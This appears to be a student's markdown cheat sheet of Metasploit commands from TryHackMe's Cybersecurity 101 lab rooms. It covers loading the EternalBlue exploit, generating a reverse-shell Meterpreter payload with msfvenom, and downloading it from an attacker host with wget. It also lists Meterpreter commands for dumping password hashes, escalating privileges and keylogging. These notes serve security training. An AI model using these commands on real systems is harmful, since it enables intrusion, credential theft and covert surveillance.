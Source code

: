 # Metasploit Fundamentals – TryHackMe (Cybersecurity 101)

This document summarizes the essential Metasploit usage across the following rooms in the Cybersecurity 101 path:

- Metasploit Introduction  
- Metasploit Exploitation  
- Metasploit Meterpreter

---

## Getting Started with Metasploit

### Launch Metasploit Console


msfconsole

### Search for Modules

search <keyword>

Example:

search ms17_010

### Select a Module

use <module_path>

Example:

use exploit/windows/smb/ms17_010_eternalblue

## Module Configuration
###Show Available Options

show options

### Set Required Options

set <option> <value>

Example:

set RHOSTS 10.10.10.10
set LHOST 10.9.0.1

### Set Global Options

setg <option> <value>

### Unset Options

unset <option>
unsetg <option>

### Show Payloads for Module

show payloads

## Running the Exploit
### Execute Exploit

run

or

exploit

### Execute in Background

exploit -z

## Sessions Management
### List Active Sessions

sessions -l

### Interact with a Session

sessions -i <ID>

### Background a Session

background

or press CTRL+Z while in session
## Payload Generation with Msfvenom
### List All Payloads

msfvenom -l payloads

### Generate ELF Payload

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<attacker_IP> LPORT=4444 -f elf > shell.elf

### Transfer Payload to Target

Start an HTTP server:

python3 -m http.server 9000

Download on target:

wget http://<attacker_IP>:9000/shell.elf

## Common Meterpreter Commands
### System Info and Identity

sysinfo         # Show system information
getuid          # Get current user
getpid          # Get current process ID

### Process Management

ps              # List processes
migrate <PID>   # Migrate to another process

### File Operations

search -f <filename>  # Search for a file

### Credential Dumping

hashdump        # Dump password hashes

### Privilege Escalation

getsystem       # Try to elevate to SYSTEM

### Shell Access

shell           # Drop into system shell

## Screenshots & Keylogging

screenshot              # Take a screenshot
keyscan_start           # Start capturing keystrokes
keyscan_dump            # Dump captured keystrokes
keyscan_stop            # Stop capturing

## Exit Meterpreter

exit
